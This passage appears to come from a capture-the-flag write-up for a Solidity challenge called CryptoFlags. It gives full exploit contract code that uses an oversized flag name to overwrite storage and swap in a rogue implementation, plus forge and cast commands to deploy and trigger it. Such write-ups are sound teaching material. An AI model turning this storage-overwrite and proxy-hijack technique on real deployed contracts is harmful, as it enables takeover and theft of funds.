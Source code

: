 import { ERC721 } from "./ERC721_flattened.sol";
import { CryptoFlags } from "./CryptoFlags.sol";

contract ExploitImpl is ERC721 {
  mapping(uint256 => string) public FlagNames;

  constructor()
      ERC721("CryptoFlags", "CTF")
  {}

  function isSolved() external pure returns (bool) {
      return true;
  }
}

contract Exploit {
  CryptoFlags flags;

  constructor(address flagsAddress) {
    flags = CryptoFlags(flagsAddress);
  }

  function exploit(address exploitImplAddress) external {
    uint256 flagId = 56488061;
    string memory slot = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    string memory newImplementation = string(abi.encode(exploitImplAddress));
    string memory payload;

    for (uint256 i = 0; i < 141; i += 1) {
      payload = string.concat(payload, slot);
    }
    payload = string.concat(payload, newImplementation);

    flags.claimFlag(flagId);
    flags.setFlagName(flagId, payload);
  }
}
{% endprism %}

1. Get the `CryptoFlags` address: `FLAGS=$(cast call --rpc-url $RPC $SETUP "cryptoFlags() (address)")`
2. Deploy the Exploit contract: `forge create --broadcast --rpc-url $RPC --private-key $KEY ./Exploit.sol:Exploit --constructor-args $FLAGS`
3. Deploy the rogue implementation of the contract: `forge create --broadcast --rpc-url $RPC --private-key $KEY ./Exploit.sol:ExploitImpl`
4. Call the `exploit` method: `cast send --rpc-url $RPC --private-key $KEY $EXPLOIT "exploit(address)" $EXPLOIT_IMPL`
5. Check if the challenge is solved: `cast call --rpc-url $RPC $SETUP "isSolved() (bool)"`

Initially, I wanted to call the `claimFlag` and `setFlagName` functions manually using `cast`, without the need
for a second contract. However, the server crashed after calling `setFlagName`. I don't know why, maybe there
was too much data being sent.

I also wrote a solver script using `web3.js`. At the end (after `return`) there is the initial attempt of calling
these functions manually.
